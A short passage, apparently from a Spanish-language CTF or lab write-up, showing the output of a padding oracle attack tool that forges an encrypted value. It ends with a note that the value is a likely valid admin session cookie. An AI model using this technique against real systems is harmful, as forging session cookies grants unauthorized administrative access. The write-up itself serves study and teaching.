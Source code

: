 ```bash
The following response signatures were returned:

-------------------------------------------------------
ID#	Freq	Status	Length	Location
-------------------------------------------------------
1	1	200	1388	N/A
2 **	255	200	15	N/A
-------------------------------------------------------

Enter an ID that matches the error condition
NOTE: The ID# marked with ** is recommended : 2

Continuing test with selection 2

[+] Success: (196/256) [Byte 8]
[+] Success: (148/256) [Byte 7]
[+] Success: (92/256) [Byte 6]
[+] Success: (41/256) [Byte 5]
[+] Success: (218/256) [Byte 4]
[+] Success: (136/256) [Byte 3]
[+] Success: (150/256) [Byte 2]
[+] Success: (190/256) [Byte 1]

Block 2 Results:
[+] New Cipher Text (HEX): 23037825d5a1683b
[+] Intermediate Bytes (HEX): 4a6d7e23d3a76e3d

[+] Success: (1/256) [Byte 8]
[+] Success: (36/256) [Byte 7]
[+] Success: (180/256) [Byte 6]
[+] Success: (17/256) [Byte 5]
[+] Success: (146/256) [Byte 4]
[+] Success: (50/256) [Byte 3]
[+] Success: (132/256) [Byte 2]
[+] Success: (135/256) [Byte 1]

Block 1 Results:
[+] New Cipher Text (HEX): 0408ad19d62eba93
[+] Intermediate Bytes (HEX): 717bc86beb4fdefe

-------------------------------------------------------
** Finished ***

[+] Encrypted value is: BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA
-------------------------------------------------------
```

Explicación: tenemos una posible cookie de sesión válida como usuario admin: `BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA`
